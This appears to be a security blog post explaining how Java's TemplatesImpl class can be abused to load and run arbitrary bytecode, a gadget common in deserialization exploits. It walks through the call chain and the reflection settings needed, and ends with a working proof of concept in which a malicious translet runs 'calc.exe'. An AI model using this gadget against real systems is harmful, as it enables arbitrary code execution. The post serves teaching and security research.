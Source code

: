 ```yaml
---
title: Using TemplatesImpl to Load Java Bytecode
date: 2023-08-27 08:36:49 +0800
categories: [Load Java-Bytecode]
tags: [Java, Security]
author: <author_id>
description: TemplatesImpl is a class in the Java XML library used for handling XSLT transformations. It provides a mechanism to store and load compiled XSLT bytecode at runtime. The class includes a private internal class TransletClassLoader, which overrides the defineClass() method to load bytecode directly into the JVM. This method is typically inaccessible, but TemplatesImpl uses it to load compiled XSLT classes when performing transformations.In an exploitation context, this feature can be abused to load arbitrary bytecode, such as malicious classes, by manipulating the internal state of TemplatesImpl. By setting specific fields like _name, _bytecodes, and _tfactory, an attacker can inject custom bytecode and use defineClass() to load and execute it, bypassing regular class loading mechanisms. The loaded class must inherit from AbstractTranslet to be valid, enabling the malicious bytecode to execute potentially harmful actions.
---
```







## Using TemplatesImpl to Load Bytecode

In the previous articles, we discussed how to load bytecode using `ClassLoader`. However, `defineClass()` is often not exposed, which limits its use in real-world attack scenarios. But there is still a way to exploit `defineClass()` for attacks using the `TemplatesImpl` class.

The `TemplatesImpl` class is part of the Java XML library in the `com.sun.org.apache.xalan.internal.xsltc.trax` package. It implements the `javax.xml.transform.Templates` interface, which stores the bytecode compiled from XSLT and loads and executes it at runtime.

Within `TemplatesImpl`, there is a private inner class called `TransletClassLoader`, which overrides the `defineClass()` method. This method is not explicitly declared as private, so it is accessible from outside the class by default. During XSLT transformation, the `TransletClassLoader` calls `defineClass()` to load the compiled bytecode into the JVM. This creates an opportunity to execute malicious code.

![](../assets/posts/2023-08-27-Using-TemplatesImpl-to-Load-Java-Bytecode/1.png)

In IDEA, we can use `Alt + Ctrl + H` to view the call hierarchy of the `defineClass()` method.

![](../assets/posts/2023-08-27-Using-TemplatesImpl-to-Load-Java-Bytecode/2.png)

```
TemplatesImpl#getOutputProperties() 
-> TemplatesImpl#newTransformer() 
-> TemplatesImpl#getTransletInstance() 
-> TemplatesImpl#defineTransletClasses()
-> TransletClassLoader#defineClass()
```
{: .nolineno}

First, check the `TemplatesImpl#defineTransletClasses()` method.

![](../assets/posts/2023-08-27-Using-TemplatesImpl-to-Load-Java-Bytecode/3.png)

Since the `defineTransletClasses()` method is a private method and cannot be called directly, continue by checking the `TemplatesImpl#getTransletInstance()` method.

![](../assets/posts/2023-08-27-Using-TemplatesImpl-to-Load-Java-Bytecode/4.png)

Since the `getTransletInstance()` method is still a private method and cannot be called directly, next, continue by checking the `TemplatesImpl#newTransformer()` method.

![](../assets/posts/2023-08-27-Using-TemplatesImpl-to-Load-Java-Bytecode/5.png)

The `newTransformer()` method is a public method, which means we can call it directly from outside the class. So, we can start directly from the `newTransformer()` method. First, the `newTransformer()` method does not have any restrictions before calling the `getTransletInstance()` method, so we can directly proceed to `getTransletInstance()`.

```java
if (_name == null) return null;

if (_class == null) defineTransletClasses();
```
{: .nolineno}

We can see that before calling the `defineTransletClasses()` method, the program checks whether `_name` is `null`. If it is `null`, it returns `null`, which prevents further progress to the `defineTransletClasses()` method in our intended exploit chain.

```java
private String _name = null;
```
{: .nolineno}

We can assign any `String` value to `_name` via reflection. Since `_class` is originally `null`, the program proceeds to `defineTransletClasses()`.

```java
if (_bytecodes == null) {
    ErrorMsg err = new ErrorMsg(ErrorMsg.NO_TRANSLET_CLASS_ERR);
    throw new TransformerConfigurationException(err.toString());
}

TransletClassLoader loader = (TransletClassLoader) AccessController.doPrivileged(new PrivilegedAction() {
    public Object run() {
        return new TransletClassLoader(ObjectFactory.findClassLoader(),_tfactory.getExternalExtensionsMap());
    }
});
```
{: .nolineno}

Before executing the `defineClass()` method, if `_bytecodes` is `null`, a `TransformerConfigurationException` will be thrown. From the `defineClass()` method, we can infer that the `_bytecodes` array is actually the array of malicious class bytecode, which we can pass to the `_bytecodes` array.

In this code, `_tfactory` cannot be `null`, otherwise the program will throw a `NullPointerException`. `_tfactory` is a parameter of type `TransformerFactoryImpl`, and we can directly assign it by creating a new instance of `TransformerFactoryImpl`.

```java
private transient TransformerFactoryImpl _tfactory = null;
```
{: .nolineno}

![](../assets/posts/2023-08-27-Using-TemplatesImpl-to-Load-Java-Bytecode/6.png)

Additionally, `TemplatesImpl` uses its internal `defineTransletClasses()` method to load the compiled bytecode into `Class` objects in the JVM. It needs to ensure that these classes have XSLT transformation capabilities. Most of these capabilities are provided by `AbstractTranslet`, so the bytecode must inherit from the `com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet` class, otherwise, effective XSLT transformation cannot be performed.

```java
for (int i = 0; i < classCount; i++) {
    _class[i] = loader.defineClass(_bytecodes[i]);
    final Class superClass = _class[i].getSuperclass();
    
    // Check if this is the main class
    if (superClass.getName().equals(ABSTRACT_TRANSLET)) {
        _transletIndex = i;
    }
    else {
        _auxClasses.put(_class[i].getName(), _class[i]);
    }
}

if (_transletIndex < 0) {
    ErrorMsg err= new ErrorMsg(ErrorMsg.NO_MAIN_TRANSLET_ERR, _name);
    throw new TransformerConfigurationException(err.toString());
}
```
{: .nolineno}

In this code, `loader.defineClass(_bytecodes[i])` loads the bytecode and returns the corresponding `Class` object. Then, by using `getSuperclass()`, the superclass of the class is obtained. If the superclass is `AbstractTranslet`, it is marked as the main class `_transletIndex`; otherwise, the class is stored in the auxiliary class collection `_auxClasses`. If the value of `_transletIndex` is still less than 0 after the loop, it means no class inheriting from `AbstractTranslet` was found in the loaded bytecode, and the program will throw an exception, indicating that no main translet class was found (`NO_MAIN_TRANSLET_ERR`).

These are the key points to consider when constructing the exploitation chain. Now, let's begin writing the malicious class bytecode and the POC (Proof of Concept).

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

public class TemplatesBytes extends AbstractTranslet {
    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {}

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {}

    static {
        try {
            Runtime.getRuntime().exec("calc.exe");
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }
}
```
{: .nolineno}

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;

public class TemplatesCalc {
    public static void main(String[] args) {
        try {
            byte[] code = Files.readAllBytes(Paths.get("C:\\Users\\28367\\Desktop\\TemplatesBytes.class"));
            TemplatesImpl templates = new TemplatesImpl();
            setFieldValue(templates, "_name", "Calc");
            setFieldValue(templates, "_bytecodes", new byte[][]{code});
            setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
            templates.newTransformer();
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }

    public static void setFieldValue(Object object, String fieldName, Object value) {
        try {
            Field declaredField = object.getClass().getDeclaredField(fieldName);
            declaredField.setAccessible(true);
            declaredField.set(object, value);
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }
}
```
{: .nolineno}

![](../assets/posts/2023-08-27-Using-TemplatesImpl-to-Load-Java-Bytecode/7.png)